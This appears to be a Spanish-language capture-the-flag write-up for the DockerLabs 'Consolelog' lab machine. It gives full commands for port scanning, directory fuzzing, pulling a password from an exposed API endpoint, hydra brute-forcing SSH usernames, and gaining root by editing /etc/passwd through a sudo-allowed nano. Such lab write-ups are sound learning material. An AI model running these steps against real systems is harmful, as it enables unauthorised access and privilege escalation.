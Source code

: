 Maquina: Consolelog
Nivel: Facil
Obejtivo:
Descripcion:



En la pagina de dockerlabs descargamos la maquina vulnerable y lo descomprimimos con: unzip consolelog.zip para desplegarlo con sudo bash auto_deploy.sh consolelog.tar


Hacemos un ping -c1 172.17.0.3 para confirmar que tenemos conexion a la maquina.


Hacemos un sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt para encontrar los puertos abiertos de la maquina: 
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64


Con mi scrip extractPorts allPorts.txt obtenemos los puertos y la IP de la mauina para usarlo con nmap -sC -sV -p80,3000,5000 172.17.0.3 -oN target.txt para buscar versiones y servicios


Entramos a la pagina web que se encuntra en el puerto :80 donde no encotramos alguna vulnerabilidad



Entramos a la pagina que se encuentra en el puerto :3000 y no encontre alguna vulnerabilidad destacable


Hice fuzzin gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt y encontre tres directorios ocultos
/index.html           
/backend              
/javascript          
Use otra vez fuzzing a los directorios encontrados: gobuster dir -u http://172.17.0.3/javascript -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
/events               
/util                 
/async  
Al realizar fuzzin y encontrar varios directorios no se encontro nada de interes asi que buscamos entre los directorios de http://172.17.0.3/backend/
6-8



En http://172.17.0.3/backend/server.js y nos podemos dar cuenta que este servidor expone un endpoint POST en la ruta /recurso/ y escucha en el puerto 3000 en todas las interfaces de red (0.0.0.0).



Hacemos una curl: curl -X POST http://172.17.0.3:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}' y obtenemos la contraseña: lapassworddebackupmaschingonadetodas



Con estra contraseña usaremos hydra para encontrar un usuario y entrar al servicio de SSH: hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.3:5000 -t 4 
y encontramos las credenciales: [5000][ssh] host: 172.17.0.3   login: lovely   password: lapassworddebackupmaschingonadetodas 
Notar tenemos que cambiar el puerto ya que no es el puerto 22



Entramos a SSH ssh -p 5000 lovely@172.17.0.3 con las credenciales encontradas, con el comando sudo -l encontramos (ALL) NOPASSWD: /usr/bin/nano eso significa que podemos usar nano, nos vamos a nano /etc/passwd para modificar 
la primera linea y quitar x de root: root::0:0:root:/root:/bin/bash guardamos cerramos y entramos como root: su root y no nos pedira contraseña
Nota: Me salio Error opening terminal: xterm-kitty. significa que el contenedor (o entorno) donde estás ejecutando el comando no reconoce o no tiene soporte para el tipo de terminal "xterm-kitty" 
Y establesco un tipo de terminal más común, como xterm 
export TERM=xterm










